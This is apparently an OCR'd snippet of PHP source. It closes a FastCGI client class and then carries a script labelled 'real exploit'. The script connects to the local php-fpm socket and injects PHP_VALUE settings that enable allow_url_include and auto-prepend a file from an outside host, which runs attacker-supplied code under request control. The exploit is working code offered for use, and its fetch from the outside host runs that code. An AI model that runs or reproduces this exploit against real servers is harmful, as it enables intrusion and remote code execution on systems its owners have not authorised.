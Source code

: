 ```php
            case self::CANT_MPX_CONN:
                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
                break;
            case self::OVERLOADED:
                throw new Exception('New request rejected; too busy [OVERLOADED]');
                break;
            case self::UNKNOWN_ROLE:
                throw new Exception('Role value not known [UNKNOWN_ROLE]');
                break;
            case self::REQUEST_COMPLETE:
                return $response;
        }
    }
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
    die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
    $filepath = __FILE__;
}else{
    $filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php/php7.2-fpm.sock", -1);
$code = "<?php echo(\$_REQUEST['command']);?>"; // php payload
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://kaibro.tw/gginin";
$params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => $filepath,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
        'PHP_VALUE'         => $php_value,
        'SERVER_SOFTWARE'   => '80sec/wofeiwo',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
// print_r($_REQUEST);
// print_r($params);
echo "Call: $uri\n\n";
echo strstr($client->request($params, $code), "PHP Version", true)."\n";
?>
```

